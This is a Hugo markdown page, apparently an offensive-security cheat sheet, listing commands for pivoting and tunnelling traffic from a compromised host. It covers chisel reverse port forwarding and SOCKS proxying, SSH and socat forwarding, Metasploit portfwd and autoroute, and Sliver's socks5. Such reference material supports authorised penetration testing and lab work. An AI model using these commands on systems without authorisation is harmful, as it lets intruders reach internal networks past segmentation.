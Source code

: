 ```yaml
---
title: "Network Traffic Pivoting"
date: 2024-6-26
tags: ["Pivoting", "Sliver", "Pivot", "Chisel", "Ssh", "Network", "Socat", "Port Forwarding", "Tunneling", "Metasploit"]
---
```


### Tunneling

{{< tab set1 tab1 active >}}Chisel{{< /tab >}}
{{< tab set1 tab2 >}}ssh{{< /tab >}}
{{< tab set1 tab3 >}}socat{{< /tab >}}
{{< tab set1 tab4 >}}metasploit{{< /tab >}}
{{< tab set1 tab5 >}}sliver{{< /tab >}}
{{< tabcontent set1 tab1 >}} 

#### Start a local chisel Server

```console
# In our local Linux machine
./chisel server --reverse --port <LOCAL_PORT>
```

#### Ports forwarding

```console
# In target machine
./chisel client <LOCAL_IP>:<LOCAL_PORT> R:<TARGET_PORT>:127.0.0.1:<TARGET_PORT>
```

```console
# Mutiple ports fowarding, can be different targets in the same subnet
./chisel client <LOCAL_IP>:<LOCAL_PORT> R:8080:172.17.0.2:8080 R:5000:172.17.0.3:5000
```

#### Socks5

```console
# In our local Linux machine
sudo nano /etc/proxychains4.conf
```

```console
# Add to the end of the file
socks5 127.0.0.1 1081
```

```console
# In target machine
./chisel client <LOCAL_IP>:<LOCAL_PORT> R:1081:socks
```

```console
# Usage, in our local machine
proxychains4 curl http://127.0.0.1:1081
```

<small>*Ref: [chisel](https://github.com/jpillora/chisel)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
# SSH port forwarding without spawning a shell
ssh -N -L <TARGET_PORT>:127.0.0.1:<TARGET_PORT> <USER>@<TARGET>
```

{{< /tabcontent >}}
{{< tabcontent set1 tab3 >}}

```console
# Any traffic go to port <TARGET_PORT> will be forwarded to <LOCAL_IP>:<TARGET_PORT>
./socat tcp-listen:<TARGET_PORT>,fork tcp:<LOCAL_IP>:<TARGET_PORT> &
```

{{< /tabcontent >}}
{{< tabcontent set1 tab4 >}}

#### Ports forwarding

```console
# Add
portfwd add -l <TARGET_PORT> -r 127.0.0.1 -p <TARGET_PORT>
```

```console
# Delete
portfwd delete -l <TARGET_PORT> -r 127.0.0.1 -p <TARGET_PORT>
```

#### Socks5

```console
# First add routes to target subnet
use post/multi/manage/autoroute
```

```console
set session <ID>
```

```console
run
```

```console
# Then create socks proxy
use auxiliary/server/socks_proxy
```

```console
run
```

{{< /tabcontent >}}
{{< tabcontent set1 tab5 >}}

```console
socks5 start
```

{{< /tabcontent >}}
